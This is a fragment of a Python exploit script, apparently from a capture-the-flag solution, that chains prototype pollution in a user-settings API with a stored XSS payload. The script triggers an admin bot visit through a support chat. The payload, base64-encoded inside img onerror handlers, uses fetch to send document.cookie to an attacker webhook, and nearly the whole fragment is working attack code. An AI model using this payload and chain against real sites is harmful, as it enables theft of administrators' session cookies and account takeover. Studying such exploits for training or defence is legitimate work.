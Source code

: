 ```python
        print(f"[+] session retrieved successfully: {self.sid}")

    def craft_xss_payload(self) -> dict:
        """Create the XSS payload with prototype pollution"""
        extract_flag = f"(async()=>{{await fetch(`https://{self.webhook}/?${{document.cookie}}`);}})()"
        post_message = (
            f"(async()=>{{parent.postMessage({{\"totalTasks\":\""
            f"<img/src/onerror=eval(atob('{base64.b64encode(extract_flag.encode()).decode()}'))>\"}}"
            f",'*');}})()"
        )
        
        return {
            "name": "Anon",
            "phone": "",
            "position": "",
            "__proto__": {
                "tasks": [{
                    "date": datetime.date.today().strftime("%Y-%m-%d"),
                    "tasksCompleted": f"<img/src/onerror=eval(atob(\"{base64.b64encode(post_message.encode()).decode()}\"))>",
                }]
            }
        }

    async def inject_payload(self) -> None:
        """Inject the XSS payload"""
        headers = {"Cookie": f"SID={self.sid}"}
        payload = self.craft_xss_payload()
        
        await self.client.post(
            f"http://{self.domain}/api/user/settings",
            headers=headers,
            json=payload
        )
        print("[+] payload has been persisted!")

    async def trigger_admin_visit(self) -> None:
        """Trigger admin visit to exploit page"""
        headers = {"Cookie": f"SID={self.sid}"}
        uuid_res = await self.client.get(
            f"http://{self.domain}/",
            headers=headers,
            follow_redirects=False
        )
        
        await self.client.post(
            f"http://{self.domain}/api/support/chat",
            headers=headers,
            json={"message": f"http://{self.domain}{uuid_res.headers['Location']}"}
        )
        print("[+] admin exploited - check the collaborator")

    async def execute(self) -> None:
        """Execute the full exploit chain"""
        await self.create_session()
        await self.inject_payload()
        await self.trigger_admin_visit()

async def main():
    domain = ""  # Add target domain
    webhook = "" # Add webhook URL
```